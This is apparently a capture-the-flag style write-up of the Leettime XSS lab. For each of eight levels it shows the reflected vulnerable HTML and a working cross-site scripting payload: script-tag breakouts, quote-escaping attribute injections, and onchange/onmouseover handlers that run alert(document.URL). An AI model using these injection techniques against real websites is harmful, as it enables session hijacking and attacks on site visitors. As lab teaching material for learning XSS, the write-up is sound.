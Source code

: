 # Leettime

URL: http://leettime.net/xsslab1

## Lab Solutions

> To check for an injection point I have used `tipsy` as an input parameter.

- [Level 1](http://leettime.net/xsslab1/chalg1.php)

    **Vulnerable Code :** 

    ```jsx
    <center>cannot find tipsy</center>
    ```

    Now as you can see, this is simply reflecting the input, and thus we can use our most basic payload. 

    - **Payload :**

        ```jsx
        <script> alert(document.URL) </script>
        ```

- [Level 2](http://leettime.net/xsslab1/sta_ge2.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value=tipsy></input>
    ```

    Now as you can see, the input is being loaded inside the input tag. So naturally we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        ></input><script> alert(document.URL) </script>
        ```

- [Level 3](http://leettime.net/xsslab1/stg_3.php)

    **Vulnerable Code :** 

    ```jsx
    <font size=3>Enter Your Name here : <input type="text" name="name" value="tipsy"></input>
    ```

    Now as you can see, the input is being loaded inside the input tag, but along with a ' " '  . So naturally, we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        "></input><script> alert(document.URL) </script>
        ```

- [Level 4](http://leettime.net/xsslab1/chlng_004.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one is a slight modification over the last one in a way that " was replaced with '. we can bypass this and create our payload in the same way.

    - **Payload :**

        ```jsx
        '></input><script> alert(document.URL) </script>
        ```

- [Level 5](http://leettime.net/xsslab1/chl05.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str="tipsy";</script>
    ```

    In this one, as we can see `tipsy` occurs inside a script tag. hence we will need to close the script tag first and then inject our basic payload.

    - **Payload :**

        ```jsx
        ";</script><script> alert(document.URL) </script>
        ```

- [Level 6](http://leettime.net/xsslab1/ch__006_.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str='tipsy';</script>
    ```

    This is just a slight modification over the last one, and hence the payload is easier to write.

    - **Payload :**

        ```jsx
        ';</script><script> alert(document.URL) </script>
        ```

- [Level 7](http://leettime.net/xsslab1/ch_7_stage.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one again looks like a basic one, but this time when we try to inject it with `'></input><script> alert(document.URL)</script>` , it doesn't work, and the source code shows 

    `<input type="text" name="name" value=''</input<script document.URL </script'></input>`

    This means that we need to exploit some functionality used by input tag.

    After some research , `on change` can be added to inject the payload.

    - **Payload :**

        ```jsx
        ' onchange='alert(document.URL)'
        ```

- [Level 8](http://leettime.net/xsslab1/stage--08.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    In this the input is being tokenized, and trying out all the previous payloads doesn't work.

    So always remember to check all the parameters, 

    In this case, let's see the request that is being sent.

    [`http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search`](http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search)

    and we have already seen that name parameter is not vulnerable.

    Let's try to change the value of `submit`` parameter and check if it is reflecting !

    New request - 

    [`http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy`](http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy)

    **Vulnerable Code :**

    ```python
    <input type="submit" name="submit" value="tipsy">
    ```

    Now let's try to build the payload with mouseonover 

    - **Payload :**

        ```jsx
        " onmouseover="alert(document.URL);
        ```


## And we are done !!

![](Screenshot_from_2020-03-31_16-51-46.png)